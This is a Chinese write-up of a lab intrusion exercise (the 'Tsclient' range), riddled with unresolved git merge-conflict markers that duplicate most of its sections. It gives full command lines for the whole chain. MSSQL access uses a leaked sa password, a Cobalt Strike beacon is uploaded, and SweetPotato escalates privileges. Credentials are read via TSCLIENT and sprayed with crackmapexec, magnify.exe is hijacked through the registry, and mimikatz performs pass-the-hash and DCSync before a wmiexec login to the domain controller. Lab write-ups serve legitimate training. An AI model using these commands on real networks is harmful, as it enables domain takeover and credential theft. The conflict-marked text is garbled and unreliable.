# 春秋云镜 - Tsclienet - 先知社区

# 春秋云镜 - Tsclient

# 信息收集

fscan

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095256-9438cff0-e1a5-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095256-9438cff0-e1a5-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

发现存在 mssql 服务，而且爆出来了密码

# Flag01

## mssql 文件上传 + getshell + 提权

利用 **impacket-mssqlclient** 进行连接

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
impacket-mssqlclient sa:'1qaz!QAZ'@121.89.199.183
```

发现设置关闭了 xp\_cmdshell

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095300-968e81f0-e1a5-1.png)

从网上下载一下 **MUDT**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095304-98911a26-e1a5-1.png)

和 impacket-mssqlclient 差不多，但是可以上传文件，上传一个 CS 上线马

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095308-9b42eaf6-e1a5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095313-9e4a68a0-e1a5-1.png)

之后利用 MDUT 上传我们的 CS 马

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095318-a1721708-e1a5-1.png)

成功上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095324-a4e71212-e1a5-1.png)

发现权限很低

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095327-a6d11762-e1a5-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095300-968e81f0-e1a5-1.png)

从网上下载一下 **MUDT**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095304-98911a26-e1a5-1.png)

和 impacket-mssqlclient 差不多，但是可以上传文件，上传一个 CS 上线马

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095308-9b42eaf6-e1a5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095313-9e4a68a0-e1a5-1.png)

之后利用 MDUT 上传我们的 CS 马

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095318-a1721708-e1a5-1.png)

成功上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095324-a4e71212-e1a5-1.png)

发现权限很低

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095327-a6d11762-e1a5-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

之后利用 sweetpotato 进行提权

将 exe 利用 MDUT 上传

<<<<<<< HEAD
```plain
shell c:\\users\\public\\sweetpotato.exe -a whoami
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095332-a99a8e06-e1a5-1.png)

之后再以最高权限运行 CS 马

```plain
shell C:\\Users\\Public\\SweetPotato.exe -a C:\\Users\\Public\\beacon_x64.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095339-addfff46-e1a5-1.png)

之后找到 flag01

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095344-b0db9f5c-e1a5-1.png)

```plain
=======
```bash
shell c:\\users\\public\\sweetpotato.exe -a whoami
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095332-a99a8e06-e1a5-1.png)

之后再以最高权限运行 CS 马

```bash
shell C:\\Users\\Public\\SweetPotato.exe -a C:\\Users\\Public\\beacon_x64.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095339-addfff46-e1a5-1.png)

之后找到 flag01

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095344-b0db9f5c-e1a5-1.png)

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
flag{f61edeff-5177-40cb-b8fd-4490a483f0df}
```

# Flag02

根据 flag01 的提示，需要看一下 user session

在这台机子里面进行信息收集

查看所有用户

<<<<<<< HEAD
```plain
shell net user
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095349-b3f38d62-e1a5-1.png)

```plain
hashdump
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095354-b69b0752-e1a5-1.png)

查看在线用户

```plain
shell quser || qwinst
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095359-b98b0994-e1a5-1.png)

所以我们需要上线 John 用户，可以利用 CS 的插件进行查看文件以及进程

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095403-bc292e1a-e1a5-1.png)

选择 User 为 John 的进程，之后注入即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095408-bf3633fa-e1a5-1.png)

net use 可以将远端的共享资源挂载到本地

```plain
shell net use
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095429-cb95b576-e1a5-1.png)

```plain
shell type \\TSCLIENT\C\credential.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095433-ce0d7604-e1a5-1.png)

```plain
=======
```bash
shell net user
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095349-b3f38d62-e1a5-1.png)

```bash
hashdump
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095354-b69b0752-e1a5-1.png)

查看在线用户

```bash
shell quser || qwinst
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095359-b98b0994-e1a5-1.png)

所以我们需要上线 John 用户，可以利用 CS 的插件进行查看文件以及进程

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095403-bc292e1a-e1a5-1.png)

选择 User 为 John 的进程，之后注入即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095408-bf3633fa-e1a5-1.png)

net use 可以将远端的共享资源挂载到本地

```bash
shell net use
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095429-cb95b576-e1a5-1.png)

```bash
shell type \\TSCLIENT\C\credential.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095433-ce0d7604-e1a5-1.png)

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#
```

现在已经知道远控的账号密码了，现在进行信息收集，获得拓扑图

对入口的机器利用 fscan 进行收集

先看一下 ip

<<<<<<< HEAD
```plain
shell ipconfig
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095439-d14560f2-e1a5-1.png)

之后利用 fscan 开扫

```plain
shell C:\\Users\\Public\\fscan.exe -h 172.22.8.0/24
```

```plain
=======
```bash
shell ipconfig
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095439-d14560f2-e1a5-1.png)

之后利用 fscan 开扫

```bash
shell C:\\Users\\Public\\fscan.exe -h 172.22.8.0/24
```

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
(icmp) Target '172.22.8.31' is alive
(icmp) Target '172.22.8.15' is alive
(icmp) Target '172.22.8.18' is alive
(icmp) Target '172.22.8.46' is alive
icmp alive hosts len is: 4
172.22.8.18:1433 open
172.22.8.46:445 open
172.22.8.18:445 open
172.22.8.15:445 open
172.22.8.31:445 open
172.22.8.46:135 open
172.22.8.46:139 open
172.22.8.18:139 open
172.22.8.15:139 open
172.22.8.31:139 open
172.22.8.18:135 open
172.22.8.15:135 open
172.22.8.31:135 open
172.22.8.46:80 open
172.22.8.18:80 open
172.22.8.15:88 open
alive ports len is: 16
start vulscan
[*] 172.22.8.31          XIAORANG\WIN19-CLIENT      
[*] 172.22.8.15    [+]DC XIAORANG\DC01              
[*] WebTitle:http://172.22.8.18        code:200 len:703    title:IIS Windows Server
NetInfo:
[*]172.22.8.18
   [->]WIN-WEB
   [->]172.22.8.18
   [->]2001:0:348b:fb58:3c9d:2e4a:d89d:b62b
NetInfo:
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
NetInfo:
[*]172.22.8.31
   [->]WIN19-CLIENT
   [->]172.22.8.31
NetInfo:
[*]172.22.8.15
   [->]DC01
   [->]172.22.8.15
[*] 172.22.8.46          XIAORANG\WIN2016           Windows Server 2016 Datacenter 14393
[*] WebTitle:http://172.22.8.46        code:200 len:703    title:IIS Windows Server
[+] mssql:172.22.8.18:1433:sa 1qaz!QAZ
```

之后利用 CS 做一个代理，我这里用的 socks4，socks5 需要身份验证，用的不太习惯

由于我们前面获取了一台主机的账号密码，但是不知道是哪一台机子，利用 cme 进行密码喷射

<<<<<<< HEAD
```plain
proxychains -q crackmapexec smb 172.22.8.0/24 -u 'Aldrich' -p 'Ald@rLMWuy7Z!#'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095448-d6ee50d6-e1a5-1.png)
=======
```bash
proxychains -q crackmapexec smb 172.22.8.0/24 -u 'Aldrich' -p 'Ald@rLMWuy7Z!#'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095448-d6ee50d6-e1a5-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

发现是可以登录 172.22.8.46 这台主机的，但是提示 STATUS\_PASSWORD\_EXPIRED

也就是密码过期了，需要使用 smbpasswd 进行修改密码

<<<<<<< HEAD
```plain
proxychains -q python3 impacket-master/examples/smbpasswd.py xiaorang.lab/Aldrich:'Ald@rLMWuy7Z!#'@172.22.8.15 -newpass 'csy666zz!'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095453-d9afb9d6-e1a5-1.png)
=======
```bash
proxychains -q python3 impacket-master/examples/smbpasswd.py xiaorang.lab/Aldrich:'Ald@rLMWuy7Z!#'@172.22.8.15 -newpass 'csy666zz!'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095453-d9afb9d6-e1a5-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

之后把 proxyfier 的配置换为 socks4，之后远程连接即可

利用 CS 生成一个 x64exe，直接运行，发现并没有上线，发现机器是不出网的

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095458-dcfbe8bc-e1a5-1.png)

这个时候就要利用 CS 的转发上线了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095502-df6e632c-e1a5-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095458-dcfbe8bc-e1a5-1.png)

这个时候就要利用 CS 的转发上线了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095502-df6e632c-e1a5-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

生成一个监听器

之后利用这个监听器生成 exe，在不出网的机子运行即可转发上线

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095508-e2799334-e1a5-1.png)

根据之前的提示映像劫持提权

```plain
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095508-e2799334-e1a5-1.png)

根据之前的提示映像劫持提权

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
get-acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
```

发现 NT AUTHORITY\\Authenticated Users 可以修改注册表  
即所有账号密码登录的用户都可以修改注册表，利用这个性质，修改注册表，使用放大镜进行提权！  
<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095515-e6ba72ec-e1a5-1.png)

修改注册表映像劫持，将放大镜劫持为 cmd

```plain
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095523-ebb1e1a4-e1a5-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095515-e6ba72ec-e1a5-1.png)

修改注册表映像劫持，将放大镜劫持为 cmd

```bash
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095523-ebb1e1a4-e1a5-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

之后锁定计算机，利用放大镜进行提权

可以发现成功劫持到 cmd，看一下权限

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095533-f17737ce-e1a5-1.png)

确实是最高权限，之后继续运行一下我们的 CS 马

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095543-f7a74aa8-e1a5-1.png)

之后得到 flag2

```plain
flag{25e1588d-28a6-4269-8fab-aa0a0202ea24}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095547-fa0d4ffe-e1a5-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095533-f17737ce-e1a5-1.png)

确实是最高权限，之后继续运行一下我们的 CS 马

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095543-f7a74aa8-e1a5-1.png)

之后得到 flag2

```bash
flag{25e1588d-28a6-4269-8fab-aa0a0202ea24}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095547-fa0d4ffe-e1a5-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

# Flag03

拿下了域控之后，抓一下明文密码，利用 CS 插件就行

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095552-fcaf5978-e1a5-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095552-fcaf5978-e1a5-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

但是没有管理员的 hash

查看当前域中的用户

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095556-ff502e14-e1a5-1.png)

域管用户信息收集

```plain
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095556-ff502e14-e1a5-1.png)

域管用户信息收集

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
shell net group "domain admins" /domain
```

发现 win2016$ 在域管组里，即机器账户可以 Hash 传递登录域控。

利用 mimikatz 注入机器账户的 hash

<<<<<<< HEAD
```plain
shell C:\Users\Aldrich\Desktop\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:WIN2016$ /domain:xiaorang.lab /ntlm:b1b840a5c19c4290a284204df50126a6" "exit"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095601-0299e6f0-e1a6-1.png)

利用 mimikatz dcsync dump 域控 hash

```plain
=======
```bash
shell C:\Users\Aldrich\Desktop\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:WIN2016$ /domain:xiaorang.lab /ntlm:b1b840a5c19c4290a284204df50126a6" "exit"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095601-0299e6f0-e1a6-1.png)

利用 mimikatz dcsync dump 域控 hash

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
shell C:\Users\Aldrich\Desktop\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"
```

得到 Administrator 的 hash

<<<<<<< HEAD
```plain
2c9d81bdcf3ec8b1def10328a7cc2f08
```

```plain
proxychains impacket-wmiexec -hashes 00000000000000000000000000000000:2c9d81bdcf3ec8b1def10328a7cc2f08 Administrator@172.22.8.15
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095609-06ddccc2-e1a6-1.png)

```plain
=======
```bash
2c9d81bdcf3ec8b1def10328a7cc2f08
```

```bash
proxychains impacket-wmiexec -hashes 00000000000000000000000000000000:2c9d81bdcf3ec8b1def10328a7cc2f08 Administrator@172.22.8.15
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240314095609-06ddccc2-e1a6-1.png)

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
flag{51a7b5a1-da5c-4198-9dcc-d2a52699af6c}
```
